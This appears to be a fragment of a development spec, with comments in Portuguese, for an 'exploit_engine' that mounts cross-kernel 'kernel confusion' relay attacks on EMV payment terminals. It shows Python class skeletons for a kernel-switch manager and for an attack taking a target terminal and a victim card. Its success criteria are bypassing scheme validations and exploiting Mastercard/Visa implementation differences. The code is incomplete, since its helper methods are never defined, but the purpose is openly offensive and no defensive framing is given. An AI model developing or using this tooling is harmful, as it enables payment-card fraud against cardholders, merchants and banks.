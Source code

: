 ### Modifications Required

#### In `core_toolkit` module:
```python
# Add to core_toolkit/kernel_manager/cross_kernel.py
class CrossKernelManager:
    def __init__(self, apdu_builder, tlv_parser):
        self.apdu_builder = apdu_builder
        self.tlv_parser = tlv_parser
        self.active_kernels = {}
        
    def register_kernel_switch(self, from_kernel, to_kernel, switch_point):
        """
        Registra mudança de kernel em ponto específico
        """
        switch_config = {
            'from': from_kernel,
            'to': to_kernel,
            'timing': switch_point,
            'payload_modifier': self.get_kernel_modifier(to_kernel)
        }
        
        return switch_config
```

#### In `exploit_engine` module:
```python
# Add to exploit_engine/attacks/cross_kernel.py
class CrossKernelExploit:
    def __init__(self, relay_server, toolkit):
        self.relay = relay_server
        self.toolkit = toolkit
        self.attack_engine = CrossKernelAttack(relay_server)
        
    def execute_kernel_confusion(self, target_terminal, victim_card):
        """
        Executa ataque de confusão entre kernels
        """
        # Detect supported kernels
        supported = self.detect_terminal_kernels(target_terminal)
        
        # Select optimal kernel combination
        attack_combo = self.select_attack_combination(supported)
        
        # Execute attack
        return self.attack_engine.initiate_kernel_confusion(
            attack_combo['initial'],
            attack_combo['target']
        )
```

## Success Criteria
- Terminal processa transação com lógica híbrida de múltiplos kernels
- Bypass de validações específicas de esquema
- Exploração de diferenças de implementação entre Mastercard/Visa
